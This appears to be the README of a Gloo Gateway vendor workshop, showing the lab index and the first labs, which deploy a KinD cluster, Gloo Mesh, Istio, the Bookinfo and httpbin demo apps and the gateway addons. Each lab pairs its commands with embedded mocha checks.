

<!--bash
source ./scripts/assert.sh
-->


<center></center>

# <center>Gloo Gateway Workshop</center>


## Table of Contents
* [Introduction](#introduction)
* [Lab 1 - Deploy a KinD cluster](#lab-1---deploy-a-kind-cluster-)
* [Lab 2 - Deploy and register Gloo Mesh](#lab-2---deploy-and-register-gloo-mesh-)
* [Lab 3 - Deploy Istio using Gloo Mesh Lifecycle Manager](#lab-3---deploy-istio-using-gloo-mesh-lifecycle-manager-)
* [Lab 4 - Deploy the Bookinfo demo app](#lab-4---deploy-the-bookinfo-demo-app-)
* [Lab 5 - Deploy the httpbin demo app](#lab-5---deploy-the-httpbin-demo-app-)
* [Lab 6 - Deploy Gloo Mesh Addons](#lab-6---deploy-gloo-mesh-addons-)
* [Lab 7 - Create the gateways workspace](#lab-7---create-the-gateways-workspace-)
* [Lab 8 - Create the bookinfo workspace](#lab-8---create-the-bookinfo-workspace-)
* [Lab 9 - Expose the productpage through a gateway](#lab-9---expose-the-productpage-through-a-gateway-)
* [Lab 10 - Create the httpbin workspace](#lab-10---create-the-httpbin-workspace-)
* [Lab 11 - Expose an external service](#lab-11---expose-an-external-service-)
* [Lab 12 - Deploy Keycloak](#lab-12---deploy-keycloak-)
* [Lab 13 - Securing the access with OAuth](#lab-13---securing-the-access-with-oauth-)
* [Lab 14 - Use the transformation filter to manipulate headers](#lab-14---use-the-transformation-filter-to-manipulate-headers-)
* [Lab 15 - Use the DLP policy to mask sensitive data](#lab-15---use-the-dlp-policy-to-mask-sensitive-data-)
* [Lab 16 - Apply rate limiting to the Gateway](#lab-16---apply-rate-limiting-to-the-gateway-)
* [Lab 17 - Use the Web Application Firewall filter](#lab-17---use-the-web-application-firewall-filter-)
* [Lab 18 - Use the JWT filter to create headers from claims](#lab-18---use-the-jwt-filter-to-create-headers-from-claims-)
* [Lab 19 - Deploy Keycloak](#lab-19---deploy-keycloak-)
* [Lab 20 - Deploy Gloo Gateway](#lab-20---deploy-gloo-gateway-)
* [Lab 21 - Deploy the httpbin demo app](#lab-21---deploy-the-httpbin-demo-app-)
* [Lab 22 - Expose the httpbin application through the gateway](#lab-22---expose-the-httpbin-application-through-the-gateway-)
* [Lab 23 - Delegate with control](#lab-23---delegate-with-control-)
* [Lab 24 - Modify the requests and responses](#lab-24---modify-the-requests-and-responses-)
* [Lab 25 - Split traffic between 2 backend services](#lab-25---split-traffic-between-2-backend-services-)
* [Lab 26 - Securing the access with OAuth](#lab-26---securing-the-access-with-oauth-)
* [Lab 27 - Use the transformation filter to manipulate headers](#lab-27---use-the-transformation-filter-to-manipulate-headers-)
* [Lab 28 - Apply rate limiting to the Gateway](#lab-28---apply-rate-limiting-to-the-gateway-)
* [Lab 29 - Use the Web Application Firewall filter](#lab-29---use-the-web-application-firewall-filter-)
* [Lab 30 - Use the JWT filter to validate JWT and create headers from claims](#lab-30---use-the-jwt-filter-to-validate-jwt-and-create-headers-from-claims-)
* [Lab 31 - Validate and authorize client certificates](#lab-31---validate-and-authorize-client-certificates-)
* [Lab 32 - Use the `cache-control` response header to cache responses](#lab-32---use-the-`cache-control`-response-header-to-cache-responses-)
* [Lab 33 - Deploy Argo Rollouts](#lab-33---deploy-argo-rollouts-)
* [Lab 34 - Roll out a new app version using Argo Rollouts](#lab-34---roll-out-a-new-app-version-using-argo-rollouts-)
* [Lab 35 - Deploy the Bookinfo sample application](#lab-35---deploy-the-bookinfo-sample-application-)
* [Lab 36 - Expose the productpage API securely](#lab-36---expose-the-productpage-api-securely-)
* [Lab 37 - Expose an external API and stitch it with the productpage API](#lab-37---expose-an-external-api-and-stitch-it-with-the-productpage-api-)
* [Lab 38 - Expose the dev portal backend](#lab-38---expose-the-dev-portal-backend-)
* [Lab 39 - Deploy and expose the dev portal frontend](#lab-39---deploy-and-expose-the-dev-portal-frontend-)
* [Lab 40 - Dev portal monetization](#lab-40---dev-portal-monetization-)
* [Lab 41 - Deploy Backstage with the backend plugin](#lab-41---deploy-backstage-with-the-backend-plugin-)


## Introduction <a name="introduction"></a>

[Gloo Gateway](https://www.solo.io/products/gloo-gateway/) is a feature-rich, fast, and flexible Kubernetes-native ingress controller and next-generation API gateway that is built on top of [Envoy proxy](https://www.envoyproxy.io/) and the [Kubernetes Gateway API](https://gateway-api.sigs.k8s.io/).

Gloo Gateway is fully conformant with the Kubernetes Gateway API and extends its functionality with Solo’s custom Gateway APIs, such as `RouteOption`, `VirtualHostOption`, `Upstream`s, `RateLimitConfig`, or `AuthConfig`.
These resources help to centrally configure routing, security, and resiliency rules for a specific component, such as a host, route, or gateway listener.

These capabilities are grouped into two editions of Gloo Gateway:

### Open source (OSS) Gloo Gateway

Use Kubernetes Gateway API-native features and the following Gloo Gateway extensions to configure basic routing, security, and resiliency capabilities:

* Access logging
* Buffering
* Cross-Origin Resource Sharing (CORS)
* Cross-Site Request Forgery (CSRF)
* Fault injection
* Header control
* Retries
* Timeouts
* Traffic tapping
* Transformations

### Gloo Gateway Enterprise Edition

In addition to the features provided by the OSS edition, many more features are available in the Enterprise Edition, including:

* External authentication and authorization
* External processing
* Data loss prevention
* Developer portal
* JSON web token (JWT)
* Rate limiting
* Response caching
* Web Application Filters

### Want to learn more about Gloo Gateway?

In the labs that follow we present some of the common patterns that our customers use and provide a good entry point into the workings of Gloo Gateway.

You can find more information about Gloo Gateway in the official documentation: <https://docs.solo.io/gateway/>.


## Lab 1 - Deploy a KinD cluster <a name="lab-1---deploy-a-kind-cluster-"></a>


Clone this repository and go to the directory where this `README.md` file is.

Set the context environment variables:

```bash
export MGMT=cluster1
export CLUSTER1=cluster1
```

Run the following commands to deploy a Kubernetes cluster using [Kind](https://kind.sigs.k8s.io/):

```bash
./scripts/deploy.sh 1 cluster1 us-west us-west-1
```

Then run the following commands to wait for all the Pods to be ready:

```bash
./scripts/check.sh cluster1
```

**Note:** If you run the `check.sh` script immediately after the `deploy.sh` script, you may see a jsonpath error. If that happens, simply wait a few seconds and try again.

Once the `check.sh` script completes, when you execute the `kubectl get pods -A` command, you should see the following:

```
NAMESPACE            NAME                                          READY   STATUS    RESTARTS   AGE
kube-system          calico-kube-controllers-59d85c5c84-sbk4k      1/1     Running   0          4h26m
kube-system          calico-node-przxs                             1/1     Running   0          4h26m
kube-system          coredns-6955765f44-ln8f5                      1/1     Running   0          4h26m
kube-system          coredns-6955765f44-s7xxx                      1/1     Running   0          4h26m
kube-system          etcd-cluster1-control-plane                   1/1     Running   0          4h27m
kube-system          kube-apiserver-cluster1-control-plane         1/1     Running   0          4h27m
kube-system          kube-controller-manager-cluster1-control-plane1/1     Running   0          4h27m
kube-system          kube-proxy-ksvzw                              1/1     Running   0          4h26m
kube-system          kube-scheduler-cluster1-control-plane         1/1     Running   0          4h27m
local-path-storage   local-path-provisioner-58f6947c7-lfmdx        1/1     Running   0          4h26m
metallb-system       controller-5c9894b5cd-cn9x2                   1/1     Running   0          4h26m
metallb-system       speaker-d7jkp                                 1/1     Running   0          4h26m
```

**Note:** The CNI pods might be different, depending on which CNI you have deployed.

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("Clusters are healthy", () => {
    const clusters = [process.env.MGMT, process.env.CLUSTER1];
    clusters.forEach(cluster => {
        it(`Cluster ${cluster} is healthy`, () => helpers.k8sObjectIsPresent({ context: cluster, namespace: "default", k8sType: "service", k8sObj: "kubernetes" }));
    });
});
EOF
echo "executing test dist/gloo-gateway-workshop/build/imported/gloo-mesh-2-0/templates/steps/deploy-kind-cluster/tests/cluster-healthy.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->


## Lab 2 - Deploy and register Gloo Mesh <a name="lab-2---deploy-and-register-gloo-mesh-"></a>
[](https://youtu.be/djfFiepK4GY "Video Link")


Before we get started, let's install the `meshctl` CLI:

```bash
export GLOO_MESH_VERSION=v2.6.0
curl -sL https://run.solo.io/meshctl/install | sh -
export PATH=$HOME/.gloo-mesh/bin:$PATH
```
<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;

describe("Required environment variables should contain value", () => {
  afterEach(function(done){
    if(this.currentTest.currentRetry() > 0){
      process.stdout.write(".");
       setTimeout(done, 1000);
    } else {
      done();
    }
  });

  it("Context environment variables should not be empty", () => {
    expect(process.env.MGMT).not.to.be.empty
    expect(process.env.CLUSTER1).not.to.be.empty
  });

  it("Gloo Mesh licence environment variables should not be empty", () => {
    expect(process.env.GLOO_MESH_LICENSE_KEY).not.to.be.empty
  });
});
EOF
echo "executing test dist/gloo-gateway-workshop/build/imported/gloo-mesh-2-0/templates/steps/deploy-and-register-gloo-mesh/tests/environment-variables.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->
Run the following commands to deploy the Gloo Mesh management plane:

```bash
kubectl --context ${MGMT} create ns gloo-mesh

helm upgrade --install gloo-platform-crds gloo-platform-crds \
  --repo https://storage.googleapis.com/gloo-platform/helm-charts \
  --namespace gloo-mesh \
  --kube-context ${MGMT} \
  --version 2.6.0

helm upgrade --install gloo-platform-mgmt gloo-platform \
  --repo https://storage.googleapis.com/gloo-platform/helm-charts \
  --namespace gloo-mesh \
  --kube-context ${MGMT} \
  --version 2.6.0 \
  -f -<<EOF
licensing:
  glooTrialLicenseKey: ${GLOO_MESH_LICENSE_KEY}
common:
  cluster: cluster1
glooInsightsEngine:
  enabled: false
glooMgmtServer:
  enabled: true
  ports:
    healthcheck: 8091
  registerCluster: true
prometheus:
  enabled: true
redis:
  deployment:
    enabled: true
telemetryGateway:
  enabled: true
  service:
    type: LoadBalancer
glooUi:
  enabled: true
  serviceType: LoadBalancer
telemetryCollector:
  enabled: true
  config:
    exporters:
      otlp:
        endpoint: gloo-telemetry-gateway:4317
glooAgent:
  enabled: true
  relay:
    serverAddress: gloo-mesh-mgmt-server:9900
    authority: gloo-mesh-mgmt-server.gloo-mesh
EOF

kubectl --context ${MGMT} -n gloo-mesh rollout status deploy/gloo-mesh-mgmt-server

kubectl --context ${MGMT} delete workspaces -A --all
kubectl --context ${MGMT} delete workspacesettings -A --all
```

<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;
const helpers = require('./tests/chai-exec');
describe("Cluster registration", () => {
  it("cluster1 is registered", () => {
    podName = helpers.getOutputForCommand({ command: "kubectl -n gloo-mesh get pods -l app=gloo-mesh-mgmt-server -o jsonpath='{.items[0].metadata.name}' --context " + process.env.MGMT }).replaceAll("'", "");
    command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.MGMT + " -n gloo-mesh debug -q -i " + podName + " --image=curlimages/curl -- curl -s http://localhost:9091/metrics" }).replaceAll("'", "");
    expect(command).to.contain("cluster1");
  });
});
EOF
echo "executing test dist/gloo-gateway-workshop/build/imported/gloo-mesh-2-0/templates/steps/deploy-and-register-gloo-mesh/tests/cluster-registration.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->


## Lab 3 - Deploy Istio using Gloo Mesh Lifecycle Manager <a name="lab-3---deploy-istio-using-gloo-mesh-lifecycle-manager-"></a>
[](https://youtu.be/f76-KOEjqHs "Video Link")

We are going to deploy Istio using Gloo Mesh Lifecycle Manager.

<details>
  <summary>Install <code>istioctl</code></summary>

Install `istioctl` if not already installed as it will be useful in some of the labs that follow.

```bash
curl -L https://istio.io/downloadIstio | sh -

if [ -d "istio-"*/ ]; then
  cd istio-*/
  export PATH=$PWD/bin:$PATH
  cd ..
fi
```

That's it!
</details>

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
var chai = require('chai');
var expect = chai.expect;
chai.use(chaiExec);

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 1000);
  } else {
    done();
  }
});
EOF
echo "executing test dist/gloo-gateway-workshop/build/imported/gloo-mesh-2-0/templates/steps/istio-lifecycle-manager-install/tests/istio-version.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

Let's create Kubernetes services for the gateways:

```bash
kubectl --context ${CLUSTER1} create ns istio-gateways

kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: Service
metadata:
  labels:
    app: istio-ingressgateway
    istio: ingressgateway
  name: istio-ingressgateway
  namespace: istio-gateways
spec:
  ports:
  - name: http2
    port: 80
    protocol: TCP
    targetPort: 8080
  - name: https
    port: 443
    protocol: TCP
    targetPort: 8443
  selector:
    app: istio-ingressgateway
    istio: ingressgateway
    revision: 1-23
  type: LoadBalancer
EOF
```

It allows us to have full control on which Istio revision we want to use.

Then, we can tell Gloo Mesh to deploy the Istio control planes and the gateways in the cluster(s).

```bash
kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: IstioLifecycleManager
metadata:
  name: cluster1-installation
  namespace: gloo-mesh
spec:
  installations:
    - clusters:
      - name: cluster1
        defaultRevision: true
      revision: 1-23
      istioOperatorSpec:
        profile: minimal
        hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
        tag: 1.23.2-solo
        namespace: istio-system
        values:
          global:
            meshID: mesh1
            multiCluster:
              clusterName: cluster1
            network: cluster1
        meshConfig:
          accessLogFile: /dev/stdout
          defaultConfig:
            proxyMetadata:
              ISTIO_META_DNS_CAPTURE: "true"
              ISTIO_META_DNS_AUTO_ALLOCATE: "true"
        components:
          pilot:
            k8s:
              env:
                - name: PILOT_ENABLE_K8S_SELECT_WORKLOAD_ENTRIES
                  value: "false"
                - name: PILOT_ENABLE_IP_AUTOALLOCATE
                  value: "true"
          ingressGateways:
          - name: istio-ingressgateway
            enabled: false
EOF

kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: GatewayLifecycleManager
metadata:
  name: cluster1-ingress
  namespace: gloo-mesh
spec:
  installations:
    - clusters:
      - name: cluster1
        activeGateway: false
      gatewayRevision: 1-23
      istioOperatorSpec:
        profile: empty
        hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
        tag: 1.23.2-solo
        values:
          gateways:
            istio-ingressgateway:
              customService: true
        components:
          ingressGateways:
            - name: istio-ingressgateway
              namespace: istio-gateways
              enabled: true
              label:
                istio: ingressgateway
EOF

```

<!--bash
until kubectl --context ${MGMT} -n gloo-mesh wait --timeout=180s --for=jsonpath='{.status.clusters.cluster1.installations.*.state}'=HEALTHY istiolifecyclemanagers/cluster1-installation; do
  echo "Waiting for the Istio installation to complete"
  sleep 1
done
timeout 2m bash -c "until [[ \$(kubectl --context ${CLUSTER1} -n istio-system get deploy -o json | jq '[.items[].status.readyReplicas] | add') -ge 1 ]]; do
  sleep 1
done"
timeout 2m bash -c "until [[ \$(kubectl --context ${CLUSTER1} -n istio-gateways get deploy -o json | jq '[.items[].status.readyReplicas] | add') -eq 1 ]]; do
  sleep 1
done"
-->

<!--bash
cat <<'EOF' > ./test.js

const helpers = require('./tests/chai-exec');

const chaiExec = require("@jsdevtools/chai-exec");
const helpersHttp = require('./tests/chai-http');
const chai = require("chai");
const expect = chai.expect;

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 1000);
  } else {
    done();
  }
});

describe("Checking Istio installation", function() {
  it('istiod pods are ready in cluster ' + process.env.CLUSTER1, () => helpers.checkDeploymentsWithLabels({ context: process.env.CLUSTER1, namespace: "istio-system", labels: "app=istiod", instances: 1 }));
  it('gateway pods are ready in cluster ' + process.env.CLUSTER1, () => helpers.checkDeploymentsWithLabels({ context: process.env.CLUSTER1, namespace: "istio-gateways", labels: "app=istio-ingressgateway", instances: 1 }));
  it("Gateways have an ip attached in cluster " + process.env.CLUSTER1, () => {
    let cli = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n istio-gateways get svc -l app=istio-ingressgateway -o jsonpath='{.items}'");
    cli.stderr.should.be.empty;
    let deployments = JSON.parse(cli.stdout.slice(1,-1));
    expect(deployments).to.have.lengthOf(1);
    deployments.forEach((deployment) => {
      expect(deployment.status.loadBalancer).to.have.property("ingress");
    });
  });
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/imported/gloo-mesh-2-0/templates/steps/istio-lifecycle-manager-install/tests/istio-ready.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->
<!--bash
timeout 2m bash -c "until [[ \$(kubectl --context ${CLUSTER1} -n istio-gateways get svc -l istio=ingressgateway -o json | jq '.items[0].status.loadBalancer | length') -gt 0 ]]; do
  sleep 1
done"
-->

```bash
export HOST_GW_CLUSTER1="$(kubectl --context ${CLUSTER1} -n istio-gateways get svc -l istio=ingressgateway -o jsonpath='{.items[0].status.loadBalancer.ingress[0].*}')"
```

<!--bash
cat <<'EOF' > ./test.js
const dns = require('dns');
const chaiHttp = require("chai-http");
const chai = require("chai");
const expect = chai.expect;
chai.use(chaiHttp);
const { waitOnFailedTest } = require('./tests/utils');

afterEach(function(done) { waitOnFailedTest(done, this.currentTest.currentRetry())});

describe("Address '" + process.env.HOST_GW_CLUSTER1 + "' can be resolved in DNS", () => {
    it(process.env.HOST_GW_CLUSTER1 + ' can be resolved', (done) => {
        return dns.lookup(process.env.HOST_GW_CLUSTER1, (err, address, family) => {
            expect(address).to.be.an.ip;
            done();
        });
    });
});
EOF
echo "executing test ./gloo-mesh-2-0/tests/can-resolve.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->


## Lab 4 - Deploy the Bookinfo demo app <a name="lab-4---deploy-the-bookinfo-demo-app-"></a>
[](https://youtu.be/nzYcrjalY5A "Video Link")

We're going to deploy the bookinfo application to demonstrate several features of Gloo Mesh.

You can find more information about this application [here](https://istio.io/latest/docs/examples/bookinfo/).

Run the following commands to deploy the bookinfo application on `cluster1`:

```bash
kubectl --context ${CLUSTER1} create ns bookinfo-frontends
kubectl --context ${CLUSTER1} create ns bookinfo-backends
kubectl --context ${CLUSTER1} label namespace bookinfo-frontends istio.io/rev=1-23 --overwrite
kubectl --context ${CLUSTER1} label namespace bookinfo-backends istio.io/rev=1-23 --overwrite

# Deploy the frontend bookinfo service in the bookinfo-frontends namespace
kubectl --context ${CLUSTER1} -n bookinfo-frontends apply -f data/steps/gloo-mesh-2-0/deploy-bookinfo/productpage-v1.yaml

# Deploy the backend bookinfo services in the bookinfo-backends namespace for all versions less than v3
kubectl --context ${CLUSTER1} -n bookinfo-backends apply \
  -f data/steps/gloo-mesh-2-0/deploy-bookinfo/details-v1.yaml \
  -f data/steps/gloo-mesh-2-0/deploy-bookinfo/ratings-v1.yaml \
  -f data/steps/gloo-mesh-2-0/deploy-bookinfo/reviews-v1-v2.yaml

# Update the reviews service to display where it is coming from
kubectl --context ${CLUSTER1} -n bookinfo-backends set env deploy/reviews-v1 CLUSTER_NAME=${CLUSTER1}
kubectl --context ${CLUSTER1} -n bookinfo-backends set env deploy/reviews-v2 CLUSTER_NAME=${CLUSTER1}
```

<!--bash
echo -n Waiting for bookinfo pods to be ready...
timeout -v 5m bash -c "
until [[ \$(kubectl --context ${CLUSTER1} -n bookinfo-frontends get deploy -o json | jq '[.items[].status.readyReplicas] | add') -eq 1 && \\
  \$(kubectl --context ${CLUSTER1} -n bookinfo-backends get deploy -o json | jq '[.items[].status.readyReplicas] | add') -eq 4 ]] 2>/dev/null
do
  sleep 1
  echo -n .
done"
echo
-->

You can check that the app is running using the following command:

```shell
kubectl --context ${CLUSTER1} -n bookinfo-frontends get pods && kubectl --context ${CLUSTER1} -n bookinfo-backends get pods
```

Note that we deployed the `productpage` service in the `bookinfo-frontends` namespace and the other services in the `bookinfo-backends` namespace.

And we deployed the `v1` and `v2` versions of the `reviews` microservice, not the `v3` version.

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("Bookinfo app", () => {
  let cluster = process.env.CLUSTER1
  let deployments = ["productpage-v1"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "bookinfo-frontends", k8sObj: deploy }));
  });
  deployments = ["ratings-v1", "details-v1", "reviews-v1", "reviews-v2"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "bookinfo-backends", k8sObj: deploy }));
  });
});
EOF
echo "executing test dist/gloo-gateway-workshop/build/imported/gloo-mesh-2-0/templates/steps/apps/bookinfo/deploy-bookinfo/tests/check-bookinfo.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->


## Lab 5 - Deploy the httpbin demo app <a name="lab-5---deploy-the-httpbin-demo-app-"></a>
[](https://youtu.be/w1xB-o_gHs0 "Video Link")


We're going to deploy the httpbin application to demonstrate several features of Gloo Mesh on cluster CLUSTER1.

You can find more information about this application [here](http://httpbin.org/).

Run the following commands to deploy the httpbin app on `cluster1`. The deployment will be called `not-in-mesh` and won't have the sidecar injected, because of the annotation `sidecar.istio.io/inject: "false"`.

```bash
kubectl --context ${CLUSTER1} create ns httpbin
kubectl apply --context ${CLUSTER1} -f - <<EOF

apiVersion: v1
kind: ServiceAccount
metadata:
  name: not-in-mesh
  namespace: httpbin
---
apiVersion: v1
kind: Service
metadata:
  name: not-in-mesh
  namespace: httpbin
  labels:
    app: not-in-mesh
    service: not-in-mesh
spec:
  ports:
  - name: http
    port: 8000
    targetPort: 80
  selector:
    app: not-in-mesh
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: not-in-mesh
  namespace: httpbin
spec:
  replicas: 1
  selector:
    matchLabels:
      app: not-in-mesh
      version: v1
  template:
    metadata:
      labels:
        app: not-in-mesh
        version: v1
    spec:
      serviceAccountName: not-in-mesh
      containers:
      - image: docker.io/kennethreitz/httpbin
        imagePullPolicy: IfNotPresent
        name: not-in-mesh
        ports:
        - name: http
          containerPort: 80
        livenessProbe:
          httpGet:
            path: /status/200
            port: http
        readinessProbe:
          httpGet:
            path: /status/200
            port: http

EOF
```

Then, we deploy a second version, which will be called `in-mesh` and will have the sidecar injected (because of the label `istio.io/rev` in the Pod template).

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF

apiVersion: v1
kind: ServiceAccount
metadata:
  name: in-mesh
  namespace: httpbin
---
apiVersion: v1
kind: Service
metadata:
  name: in-mesh
  namespace: httpbin
  labels:
    app: in-mesh
    service: in-mesh
spec:
  ports:
  - name: http
    port: 8000
    targetPort: 80
  selector:
    app: in-mesh
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: in-mesh
  namespace: httpbin
spec:
  replicas: 1
  selector:
    matchLabels:
      app: in-mesh
      version: v1
  template:
    metadata:
      labels:
        app: in-mesh
        version: v1
        istio.io/rev: 1-23
    spec:
      serviceAccountName: in-mesh
      containers:
      - image: docker.io/kennethreitz/httpbin
        imagePullPolicy: IfNotPresent
        name: in-mesh
        ports:
        - name: http
          containerPort: 80
        livenessProbe:
          httpGet:
            path: /status/200
            port: http
        readinessProbe:
          httpGet:
            path: /status/200
            port: http

EOF
```


<!--bash
echo -n Waiting for httpbin pods to be ready...
timeout -v 5m bash -c "
until [[ \$(kubectl --context ${CLUSTER1} -n httpbin get deploy -o json | jq '[.items[].status.readyReplicas] | add') -eq 2 ]] 2>/dev/null
do
  sleep 1
  echo -n .
done"
echo
-->
```
You can follow the progress using the following command:

```bash
kubectl --context ${CLUSTER1} -n httpbin get pods
```

```,nocopy
NAME                           READY   STATUS    RESTARTS   AGE
in-mesh-5d9d9549b5-qrdgd       2/2     Running   0          11s
not-in-mesh-5c64bb49cd-m9kwm   1/1     Running   0          11s
```
<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("httpbin app", () => {
  let cluster = process.env.CLUSTER1
  
  let deployments = ["not-in-mesh", "in-mesh"];
  
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "httpbin", k8sObj: deploy }));
  });
});
EOF
echo "executing test dist/gloo-gateway-workshop/build/imported/gloo-mesh-2-0/templates/steps/apps/httpbin/deploy-httpbin/tests/check-httpbin.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->


## Lab 6 - Deploy Gloo Mesh Addons <a name="lab-6---deploy-gloo-mesh-addons-"></a>
[](https://youtu.be/_rorug_2bk8 "Video Link")

To use the Gloo Mesh Gateway advanced features (external authentication, rate limiting, ...), you need to install the Gloo Mesh addons.

First, you need to create a namespace for the addons, with Istio injection enabled:

```bash
kubectl --context ${CLUSTER1} create namespace gloo-mesh-addons
kubectl --context ${CLUSTER1} label namespace gloo-mesh-addons istio.io/rev=1-23 --overwrite
```

Then, you can deploy the addons on the cluster(s) using Helm:

```bash
helm upgrade --install gloo-platform gloo-platform \
  --repo https://storage.googleapis.com/gloo-platform/helm-charts \
  --namespace gloo-mesh-addons \
  --kube-context ${CLUSTER1} \
  --version 2.6.0 \
  -f -<<EOF
common:
  cluster: cluster1
glooAgent:
  enabled: false
extAuthService:
  enabled: true
  extAuth:
    apiKeyStorage:
      name: redis
      enabled: true
      config: 
        connection: 
          host: redis.gloo-mesh-addons:6379
      secretKey: ThisIsSecret
rateLimiter:
  enabled: true
EOF
```

For teams to setup external authentication, the gateways team needs to create and `ExtAuthServer` object they can reference.

Let's create the `ExtAuthServer` object:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: ExtAuthServer
metadata:
  name: ext-auth-server
  namespace: gloo-mesh-addons
spec:
  destinationServer:
    ref:
      cluster: cluster1
      name: ext-auth-service
      namespace: gloo-mesh-addons
    port:
      name: grpc
  requestBody: {} # Needed if some an extauth plugin must access the body of the requests
EOF
```

For teams to setup rate limiting, the gateways team needs to create and `RateLimitServerSettings` object they can reference.

Let's create the `RateLimitServerSettings` object:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: RateLimitServerSettings
metadata:
  name: rate-limit-server
  namespace: gloo-mesh-addons
spec:
  destinationServer:
    ref:
      cluster: cluster1
      name: rate-limiter
      namespace: gloo-mesh-addons
    port:
      name: grpc
EOF
```
<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("Gloo Platform add-ons cluster1 deployment", () => {
  let cluster = process.env.CLUSTER1
  let deployments = ["ext-auth-service", "rate-limiter"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "gloo-mesh-addons", k8sObj: deploy }));
  });
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/imported/gloo-mesh-2-0/templates/steps/deploy-gloo-mesh-addons/tests/check-addons-deployments.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->
<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("Gloo Platform add-ons cluster1 service", () => {
  let cluster = process.env.CLUSTER1
  let services = ["ext-auth-service", "rate-limiter"];
  services.forEach(service => {
    it(service + ' exists in ' + cluster, () => helpers.k8sObjectIsPresent({ context: cluster, namespace: "gloo-mesh-addons", k8sType: "service", k8sObj: service }));
  });
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/imported/gloo-mesh-2-0/templates/steps/deploy-gloo-mesh-addons/tests/check-addons-services.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->
This is what the environment looks like now:


## Lab 7 - Create the gateways workspace <a name="lab-7---create-the-gateways-workspace-"></a>
[](https://youtu.be/QeVBH0eswWw "Video Link")

We're going to create a workspace for the team in charge of the Gateways.

The platform team needs to create the corresponding `Workspace` Kubernetes objects in the Gloo Mesh management cluster.

